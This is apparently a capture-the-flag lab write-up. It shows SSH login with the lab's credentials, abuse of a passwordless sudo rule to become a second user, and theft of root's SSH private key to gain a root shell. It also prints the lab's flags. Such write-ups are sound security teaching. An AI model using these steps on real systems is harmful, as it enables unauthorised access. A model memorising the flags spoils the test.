






# Lateral Movement & Privilege Escalation

## Given Information

Target: 154.57.164.73:30411

**SSH:**

**IP: 154.57.164.82**

**Username: user1**

**Password: password1**

## Initial Access

I connected to the target through SSH using the provided credentials.

    ssh user1@154.57.164.82

After gaining access, I located the first flag but noticed that it required higher privileges.

## Lateral Movement

I started by checking the current user's sudo privileges:

    sudo -l

The output showed:

    (user2 : user2) NOPASSWD: /bin/bash

This meant that user1 was allowed to execute /bin/bash as user2 without providing a password.

I used this permission to switch to user2:

    sudo -u user2 /bin/bash

## Flag 1

    HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}

## Privilege Escalation

The second flag required root privileges.

I found an SSH private key inside the root user's SSH directory:

    /root/.ssh/id_rsa

I copied the private key and saved it locally as id_rsa.

I then changed its permissions:

    chmod 600 id_rsa

This restricts the private key so that only its owner can read and write it.

I then used the private key to authenticate to SSH as root:

    ssh -p PORT -i id_rsa root@IP

The -i option specifies the identity file (private key) that SSH should use for authentication.

This successfully gave me a root shell.

## Flag 2

    HTB{pr1v1l363_35c4c4710_2_r007}

## Attack Path

    user1
      ↓
    sudo -l
      ↓
    user2
      ↓
    Find root's id_rsa
      ↓
    SSH using private key
      ↓
    root

## Conclusion

This lab demonstrated two important concepts:

1. Lateral Movement by abusing a sudo permission to execute Bash as another user.
2. Privilege Escalation by finding and using an exposed root SSH private key.